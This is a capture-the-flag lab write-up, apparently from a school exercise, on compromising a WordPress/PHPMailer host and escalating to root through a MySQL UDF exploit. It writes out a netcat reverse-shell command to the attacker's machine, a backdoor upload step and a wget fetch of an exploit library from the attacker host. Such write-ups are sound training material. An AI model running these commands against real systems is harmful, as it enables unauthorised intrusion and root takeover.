# **Target 2**
### Target 2 IP: 192.168.1.115
### KALI IP: 192.168.1.90


## Recon
-----

#### NMAP:

![](pictures/RedTeam2/NMAP.png)

#### GOBUSTER

![](pictures/RedTeam2/GOBUSTER.png)

#### WPSCAN

![](pictures/RedTeam2/WPSCAN.png)

![](pictures/RedTeam2/WPSCAN_users.png)

I see that these are the same users as last time, so I tried their old passwords, and they all have updated their passwords since the last hack.

Going into `http://192.168.1.115/vendor/` we can find the first flag by just taking a search into all of the file, in this case, the first flag was in `http://192.168.1.115/vendor/PATH`

![](pictures/RedTeam2/FLAG1.png)

After looking into `http://192.168.1.115/vendor/SECURITY.md` you can see that this company is keeping track of all the patches for `PHPMailer`, so we'll see if this is patched all of the way or if there is still a vulnerability. at `/vendor/VERSION` we see the PHPMailer version is most likely `5.2.16`


## EXPLOIT
------------

![](pictures/RedTeam2/script.png)

After running the script found in the CVE, (or in our case, the one provided by the school) it uploaded a backdoor.php script that allows me to upload console commands, and thanks to the website `https://meyerweb.com/eric/tools/dencoder/`, it turns `nc 192.168.1.90 4444 -e /bin/bash` into `nc%20192.168.1.90%204444%20-e%20%2Fbin%2Fbash`, which we can put into the URL after running `nc -lnvp 4444` on our host machine, we can gain a reverse shell, then we can use a simple python trick to get a normal shell with: `python -c 'import pty;pty.spawn("/bin/bash")'`

![](pictures/RedTeam2/Getting_Normal_shell.png)

![](pictures/RedTeam2/reverse_shell.png)

Move one directory back, and you find the second Flag

![](pictures/RedTeam2/FLAG2.png)

Flag 3 was found at `http://192.168.1.115/wordpress/wp-content/uploads/2018/`, which was the first flag I found since it was the most interesting result from the `wpscan`

![](pictures/RedTeam2/FLAG3.png)

# ESCALATION
------------

We can find the same MySQL credentials in the same place, just to make sure they didn't change anything

![](pictures/RedTeam2/SQL_config.png)

When you connect to it you get the version number of it

![](pictures/RedTeam2/SQL_version.png)

And proof that it's running as root

![](pictures/RedTeam2/SQL_running_root.png)

Some research led me to the `MySQL 4.x/5.0 (Linux) - User-Defined Function (UDF) Dynamic Library (2)` from http://exploit-db.com/exploits/1518, I tried really hard to get it to compile on the target system, but it didn't work, luckily we're already on the network so I can host it on my target machine and download it using my remote shell, using this guide to compile it using `gcc` https://atom.hackstreetboys.ph/linux-privilege-escalation-service-exploit/


So using the Python Simple HTTP service `python -m SimpleHTTPServer 80`, I can use the remote shell to `wget 192.168.1.90/temp/1518.so`, which downloads the file onto my target machine, giving the payload extra privileges, we can download it on the target system with the remote terminal we got executing the line `wget 192.168.1.90/temp/1518.so`

![](pictures/RedTeam2/inject_SQL_payload.png)

![](pictures/RedTeam2/Priv_Escalation_success.png)

After following that guide perfectly, we're in the system in a root shell.



![](pictures/RedTeam2/FLAG4.png)

And that's all four flags! In conclusion, the system is extremely vulnerable to not only PHP injection but it's also code execution as it's running an outdated version of MySQL
